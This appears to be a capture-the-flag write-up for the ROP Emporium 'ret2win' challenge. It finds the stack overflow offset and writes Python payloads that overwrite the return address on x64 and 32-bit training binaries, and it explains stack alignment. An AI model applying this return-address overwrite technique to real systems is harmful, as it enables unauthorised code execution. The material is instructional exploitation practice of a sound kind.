

ret2win
ret2win
One common introductory ROP challenge is known as ret2win. The goal is to call a specific function in the program called ret2win, which prints a success message and reveal a flag.txt
In the example code below, we’ll find out the first the offset of buffer overflow, and then ret2win function’s address in the binary. The task is to overwrite the program’s return address with ret2win address, causing the program to execute ret2win.
Buffer

x64 - ret2win
- To find out offset first we will generate cyclic pattern with 100 bytes

run the binary and put your generated cyclic payload into buffer, it overflows and responses with SIGSEGV
in that moment we go and check in which offset buffer ends and moves to registers RBP and to Return Address

This shows that to overwrite RBP, we need an offset of only 32 bytes, and to overwrite the saved RIP (or return address), we need an offset of 40 bytes.
- We can find the address of
ret2winusing the commandobjdump -M intel -D ./binary | grep ret2win

Payload:
import struct
# Address of ret2win function (replace with the correct one from your binary)
ret2win_address = 0x0000000000400756 # Example, use your binary's actual address
# Buffer overflow offset (found during the analysis, e.g., with gdb)
offset = 40 # Example, adjust as needed
ret = 0x40053e
# Construct the payload
payload = b'A' * offset # Filler to overflow the buffer
payload += struct.pack("<Q", ret)
payload += struct.pack("<Q", ret2win_address) # Address of ret2win
# Send the payload to the program
print(payload)
with open("payload", "wb") as f:
f.write(payload)
print(f"Payload written to file. Length: {len(payload)} bytes")
Flag:

-
Note
struct.pack("<Q", 0xdeadbeefdeadbeef)converts the hexadecimal value into a binary representation using little-endian byte order.<Q- For 64-bit little-endian<I- For 32-bit little-endian And you might wonder why we place theretinstruction before calling the function itself. This is to ensure stack alignment, which is one of the common pitfalls in x64 ROP exploitation.The MOVAPS issue If you’re segfaulting on a movaps instruction in
buffered_vfprintf()ordo_system()in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such asprintf()orsystem(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction. (Source: https://ropemporium.com/guide.html)
x86-32 - ret2win32
We will determine the offset required for overflowing the stack and then place our entire payload there, just as we did with an ret2win.


Payload:
import struct
# Address of the ret2win function (replace with the correct address from your 32-bit binary)
ret2win_address = 0x0804862c # Example 32-bit address, replace with actual
# Offset to overwrite the return address (determined from buffer overflow analysis)
offset = 44 # Adjust this based on your analysis
# Construct the payload
payload = b'A' * offset # Padding to overflow the buffer
payload += struct.pack("<I", ret2win_address) # Address of ret2win (32-bit address)
# Write the payload to a file or send it to the binary
with open("payload", "wb") as f:
f.write(payload)
print(f"Payload length: {len(payload)} bytes")
If you’re not using GDB with GEF, try reversing the binary and calculating the offset; this is often easier to accomplish with IDA.
Flag: